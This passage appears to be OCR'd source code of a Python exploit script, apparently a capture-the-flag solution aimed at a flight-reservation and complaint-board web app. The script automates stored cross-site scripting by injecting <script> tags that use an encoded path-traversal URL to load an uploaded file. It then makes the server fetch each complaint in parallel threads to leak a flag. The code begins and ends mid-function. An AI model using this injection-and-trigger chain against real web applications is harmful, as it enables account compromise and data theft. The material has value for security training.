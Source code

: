 ```python
        complaint_create(f"{i}_{char}", """<script src="http://localhost:5000/static/..%2f..%2froot/Downloads/""" + fileHash.replace("/uploads/", "") + """"></script>""")
        time.sleep(1)

    return True

def getFileHash():
    res = reservation_session.get(f"{reservation}/reservation")
    
    pattern = r'href="(/uploads[^"]+)"'
    matches = re.findall(pattern, res.text)

    return matches[0]

def get_reservation_id():
    res = board_session.get(f"{board}/complaint/create")
    pattern = r'value="([^"]+)"'
    matches = re.findall(pattern, res.text)

    return matches[0]

def complaint_create(title, content):
    board_session.post(f"{board}/complaint/create", data={
        "reservationId": get_reservation_id(),
        "title": title,
        "content": content
    })
    
    return True

def get_flight_id():
    res = reservation_session.get(f"{reservation}/reservation/create")
    pattern = r'value="([^"]+)"'
    matches = re.findall(pattern, res.text)

    return matches[0]

def get_complaint_id_list():
    res = board_session.get(f"{board}/complaint")
    pattern = r'href="(/complaint/[0-9a-fA-F]{24})"'
    matches = re.findall(pattern, res.text)

    return matches

def call_complaint(session, complaint_id):
    session.get(f"{board}/complaint/call?url=http://localhost:5000{complaint_id}",timeout=60)

def leakFlag():
    complaint_id_list = get_complaint_id_list()

    for i in range(16):
        complaint_id = complaint_id_list[i]

        temp_session = get_temp_session(username, password)
        temp_session_2 = get_temp_session(username, password)

        threading.Thread(
            target=call_complaint, 
            args=(temp_session, complaint_id),
            daemon=True
        ).start()

        time.sleep(2)
```